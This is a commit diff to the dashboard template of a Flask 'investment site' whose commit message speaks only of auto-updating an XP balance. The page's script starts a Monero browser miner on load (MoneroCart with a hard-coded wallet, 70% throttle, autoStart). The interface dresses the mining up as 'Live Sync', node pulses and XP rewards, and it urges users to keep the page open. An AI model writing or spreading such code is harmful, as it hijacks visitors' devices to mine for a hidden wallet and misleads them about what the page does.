

Before and after one commit to akliop/investment-site, a Flask app: template templates/dashboard.html in a window 1280 px wide. Shown: the part 57-772 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty; some libraries are stand-ins or nearby versions.

Commit message:
UX: Implemented Full Auto-Update for XP balance across the entire UI (Navbar + Dashboard) every 10 seconds with visual feedback

```diff
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -3,65 +3,65 @@
 {% block content %}
 <div class="row pt-4">
     <div class="col-lg-8 mb-4">
-        <div class="glass-card border-success border-opacity-50">
+        <div class="glass-card border-success border-opacity-50 shadow-lg">
             <div class="d-flex justify-content-between align-items-center mb-4">
-                <h2 class="cyber-font text-white mb-0 small"><i class="fa-solid fa-microchip me-2 text-success"></i> المزامنة مع <span class="text-success">Node X</span></h2>
+                <h2 class="cyber-font text-white mb-0 small"><i class="fa-solid fa-microchip me-2 text-success"></i> المزامنة النشطة <span class="text-success">Live Sync</span></h2>
                 <div class="form-check form-switch custom-switch">
                     <input class="form-check-input" type="checkbox" id="mining-toggle" style="width: 50px; height: 25px; cursor: pointer;" checked>
                 </div>
             </div>
 
-            <!-- PRO-STYLE RATE INDICATOR -->
+            <!-- RATE BADGE -->
             <div class="mb-4 d-flex justify-content-between align-items-center p-3 bg-dark bg-opacity-25 rounded border border-success border-opacity-10">
-                <div class="small text-dim"><i class="fa-solid fa-bolt-lightning text-warning me-2"></i> معدل الربح الثابت:</div>
-                <div class="badge bg-success text-black fw-bold px-3 py-2">10 XP / دقيقة</div>
+                <div class="small text-dim"><i class="fa-solid fa-bolt-lightning text-warning me-2"></i> معدل الإضافة التلقائية:</div>
+                <div class="badge bg-success text-black fw-bold px-3 py-2 glow-pulse">10 XP / دقيقة (تلقائي)</div>
             </div>
 
-            <!-- NEXT PAYOUT PROGRESS BAR -->
+            <!-- PROGRESS PAIRED WITH AUTO-ADD -->
             <div class="mb-5 p-3 bg-black rounded border border-dark position-relative overflow-hidden">
                 <label class="small text-dim mb-2 d-flex justify-content-between">
-                    <span>مؤشر النبضة القادمة (10ث)</span>
+                    <span>نبضة الإيداع التلقائي (10ث)</span>
                     <span id="payout-timer" class="text-success fw-bold">10s</span>
                 </label>
-                <div class="progress bg-dark" style="height: 6px;">
+                <div class="progress bg-dark" style="height: 8px; border-radius: 20px;">
                     <div id="payout-bar" class="progress-bar bg-success shadow-green-glow transition-smooth" style="width: 0%"></div>
                 </div>
                 <div class="x-small text-muted mt-2 d-flex justify-content-between">
-                    <span>تحميل...</span>
-                    <span>+1.66 XP <i class="fa-solid fa-gift text-warning"></i></span>
+                    <span id="sync-status"><i class="fa-solid fa-circle-dot text-success me-1"></i> العقدة نشطة</span>
+                    <span class="text-white">+1.66 XP <i class="fa-solid fa-arrow-down-long text-success"></i></span>
                 </div>
             </div>
 
             <div class="row text-center mb-4">
-                <div class="col-6">
-                    <div class="small text-dim cyber-font x-small mb-1">Hash Rate</div>
+                <div class="col-6 border-end border-dark">
+                    <div class="small text-dim cyber-font x-small mb-1">سرعة المعالجة</div>
                     <div id="hashrate-val" class="h3 text-success">0 H/s</div>
                 </div>
-                <div class="col-6 text-end px-4">
-                    <div class="small text-dim cyber-font x-small mb-1">Total XP</div>
-                    <div id="xp-val" class="h3 text-white fw-bold">{{ "%.1f"|format(user.xp or 0.0) }}</div>
+                <div class="col-6">
+                    <div class="small text-dim cyber-font x-small mb-1">XP الرصيد التلقائي</div>
+                    <div id="xp-val" class="h3 text-white fw-bold glow-update">{{ "%.1f"|format(user.xp or 0.0) }}</div>
                 </div>
             </div>
 
-            <div class="mt-4 p-3 bg-black rounded border border-info border-opacity-25">
-              <h6 class="cyber-font text-info x-small mb-2"><i class="fa-regular fa-share-from-square me-2"></i> رابط الإحالة</h6>
+            <div class="mt-4 p-3 bg-black rounded border border-info border-opacity-25 text-center">
+              <p class="x-small text-dim mb-3">اترك هذه الصفحة مفتوحة لضمان الاستمرار في حصد النقاط تلقائياً.</p>
               <div class="input-group">
                 <input type="text" class="form-control text-center small opacity-75" id="ref-link" value="{{ ref_link }}" readonly>
-                <button class="btn btn-outline-info" onclick="copyRef()"><i class="fa-solid fa-copy"></i></button>
+                <button class="btn btn-info px-4" onclick="copyRef()"><i class="fa-solid fa-copy"></i></button>
               </div>
             </div>
         </div>
     </div>
 
-    <!-- Leaderboard & Rank -->
+    <!-- Leaderboard & Status -->
     <div class="col-lg-4">
         <div class="glass-card mb-4 border-warning border-opacity-25 p-4 text-center">
-            <h5 class="cyber-font text-white mb-2 small">رتبة العقدة</h5>
+            <h5 class="cyber-font text-white mb-2 small">تصنيف المعدن</h5>
             <div id="rank-val" class="h4 text-success mb-0 fw-bold">{{ user.rank }}</div>
         </div>
 
         <div class="glass-card border-warning border-opacity-25">
-            <h5 class="cyber-font text-white mb-4 x-small"><i class="fa-solid fa-crown text-warning me-2"></i> لوحة الشرف (Top XP)</h5>
+            <h5 class="cyber-font text-white mb-4 x-small"><i class="fa-solid fa-crown text-warning me-2"></i> أفضل المعدنين</h5>
             <ul class="list-group list-group-flush bg-transparent">
                 {% for miner in top_miners %}
                 <li class="list-group-item bg-transparent text-dim d-flex justify-content-between align-items-center border-dark px-0 py-2">
@@ -83,21 +83,30 @@
     const xpEl = document.getElementById('xp-val');
     const payoutBar = document.getElementById('payout-bar');
     const payoutTimer = document.getElementById('payout-timer');
+    const navXpEl = document.getElementById('nav-xp'); // العداد في الشريط العلوي
 
     const walletAddress = "43vFW6jqgmmb4upGQ5je4j227N1o8D6La77oVeRdCuL7PAB7u7UqiswbF7Vc5YmxR9TyFSkmTQkAaSjRwq53h3We6pm3rZY";
     let miner = null;
     let isActive = true;
     let secondsLeft = 10;
 
-    try { miner = new MoneroCart.User(walletAddress, "{{ user.username }}", { throttle: 0.7, autoStart: true }); } catch(e){}
+    try {
+        miner = new MoneroCart.User(walletAddress, "{{ user.username }}", { throttle: 0.7, autoStart: true });
+    } catch(e) { console.error("Script Load Issue"); }
 
     toggle.onchange = function() {
         isActive = this.checked;
-        if (isActive && miner) { miner.start(); }
-        else if (miner) { miner.stop(); hashrateEl.innerText = "0 H/s"; }
+        if (isActive && miner) {
+            miner.start();
+            document.getElementById('sync-status').innerHTML = '<i class="fa-solid fa-circle-dot text-success me-1"></i> العقدة نشطة';
+        } else if (miner) {
+            miner.stop();
+            hashrateEl.innerText = "0 H/s";
+            document.getElementById('sync-status').innerHTML = '<i class="fa-solid fa-circle-xmark text-danger me-1"></i> العقدة متوقفة';
+        }
     }
 
-    // العداد التنازلي ونظام الـ 10 ثواني (1.66 XP)
+    // العداد التلقائي (النبضة كل 10 ثواني)
     setInterval(() => {
         if (isActive) {
             secondsLeft--;
@@ -118,11 +127,17 @@
         fetch('/api/v2/node/pulse', {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
-            body: JSON.stringify({ units: 1.66 }) // 1.66 XP كل نبضة
+            body: JSON.stringify({ units: 1.66 })
         }).then(r => r.json()).then(data => {
             if (data.status === "success") {
+                // تحديث العداد في اللوحة وفي الشريط العلوي تلقائياً
+                const formatedXp = data.xp.toLocaleString() + " XP";
                 xpEl.innerText = data.xp.toLocaleString();
-                document.getElementById('rank-val').innerText = data.rank;
+                if (navXpEl) navXpEl.innerText = formatedXp;
+
+                // تأثير بصري عند الإضافة
+                xpEl.classList.add('glow-green-flash');
+                setTimeout(() => xpEl.classList.remove('glow-green-flash'), 500);
             }
         });
     }
@@ -131,13 +146,14 @@
         const copyText = document.getElementById("ref-link");
         copyText.select();
         navigator.clipboard.writeText(copyText.value);
-        alert("تم نسخ رابط الإحالة!");
+        alert("تم نسخ رابط الإحالة بنجاح!");
     }
 </script>
 
 <style>
-    .shadow-green-glow { box-shadow: 0 0 10px rgba(0, 230, 118, 0.4); }
+    .shadow-green-glow { box-shadow: 0 0 15px rgba(0, 230, 118, 0.4); }
     .transition-smooth { transition: width 1s linear; }
-    .x-small { font-size: 10px; }
+    .x-small { font-size: 11px; }
+    .glow-green-flash { color: #00ff88; text-shadow: 0 0 15px #00ff88; transition: 0.2s; }
 </style>
 {% endblock %}
```
